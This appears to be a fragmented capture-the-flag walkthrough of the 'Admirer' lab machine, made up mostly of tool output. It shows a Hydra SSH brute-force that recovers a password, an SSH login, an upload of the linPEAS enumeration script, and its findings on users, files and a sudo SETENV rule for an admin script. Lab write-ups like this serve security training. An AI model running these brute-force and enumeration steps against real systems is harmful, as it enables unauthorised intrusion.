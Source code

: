 Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-07 17:49:57
[DATA] max 1 task per 1 server, overall 1 task, 132 login tries (l:22/p:6), ~132 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://waldo@10.10.10.187:22
[INFO] Successful, password authentication is supported by ssh://10.10.10.187:22
[22][ssh] host: 10.10.10.187   login: waldo   password: &<h5b~yK3F#{PaPB&dA}{H>


 ssh waldo@10.10.10.187

 scp /opt/privesc/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh waldo@10.10.10.187:


 [+] Users with console
                     
amy:x:1004:1007:Amy Bialik:/home/amy:/bin/bash                               
bernadette:x:1007:1010:Bernadette Rauch:/home/bernadette:/bin/bash           
howard:x:1008:1011:Howard Helberg:/home/howard:/bin/bash                     
leonard:x:1005:1008:Leonard Galecki:/home/leonard:/bin/bash                  
penny:x:1002:1005:Penny Wise:/home/penny:/bin/bash                           
rajesh:x:1003:1006:Rajesh Nayyar:/home/rajesh:/bin/bash                      
root:x:0:0:root:/root:/bin/bash             
waldo:x:1000:1000:Waldo Cooper:/home/waldo:/bin/bash     


[+] Readable files belonging to root and readable by me but not world readable
-rwxr----- 1 root admins 198 Dec  2  2019 /opt/scripts/backup.py
-rw-r----- 1 root waldo 33 Feb  7 12:52 /home/waldo/user.txt

[+] Mails (limit 50)
     1396     16 -rw-rw----   1 waldo    mail        15412 Apr 29  2020 /var/mail/waldo
     1396     16 -rw-rw----   1 waldo    mail        15412 Apr 29  2020 /var/spool/mail/waldo

total 16K
drwxr-xr-x 2 root admins 4.0K Dec  2  2019 .
drwxr-xr-x 3 root root   4.0K Nov 30  2019 ..
-rwxr-xr-x 1 root admins 2.6K Dec  2  2019 admin_tasks.sh
-rwxr----- 1 root admins  198 Dec  2  2019 backup.py

waldo@admirer:/var/backups$ id
uid=1000(waldo) gid=1000(waldo) groups=1000(waldo),1001(admins)

waldo@admirer:/var/backups$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh


backup_web()
{                                                                              
    if [ "$EUID" -eq 0 ]                                                       
    then                                                                       
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &                           
    else                                                                       
        echo "Insufficient privileges to perform the selected operation."
    fi
}
